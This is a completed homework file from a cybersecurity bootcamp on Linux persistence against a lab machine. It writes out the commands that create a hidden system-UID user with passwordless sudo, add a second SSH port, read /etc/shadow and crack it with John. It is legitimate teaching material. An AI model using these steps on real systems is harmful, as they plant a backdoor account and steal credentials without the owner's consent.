

# Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

## **Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd`
    <!--or omit sudo if we have 'sudo -s' into 'root' user-->

2. Give your secret user a password: 

    - After first command:
        Enter password (passwd) when requested then confirm at 'Retype new UNIX password' (passwd)

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 291 sysd`
    <!--or omit sudo if we have 'sudo -s' into 'root' user-->

4. Give your secret user the same GID:
    
    - `sudo groupmod -g 291 sysd`
    <!--or omit sudo if we have 'sudo -s' into 'root' user-->

    - Combining steps 1 to 4. 
        - `sudo adduser --no-create-home --uid 291 sysd`

5. Give your secret user full `sudo` access without the need for a password:\
    
    - `sudo visudo`
        then append row:
        sysd ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
    or 
    - `sudo bash -c 'echo "sysd ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers'`

6. Test that `sudo` access works without your password:
    ```bash
    sudo cat /etc/shadow
    ```
    and

    ```bash
    sudo visudo
    ```

## **Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

    then update file with:
    ```bash
    Port 22
    Port 2222
    ```
    <!--uncommenting #Port 22 allowing both ports 22 and 2222-->
    
## **Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd`

2. Exit the `root` account:
    - `exit` 
    <!--out of root-->
    - then `exit`
    <!--logout of target machine-->

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`
    - 

## **Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`
    - 

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - `john /etc/shadow`
    - 

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

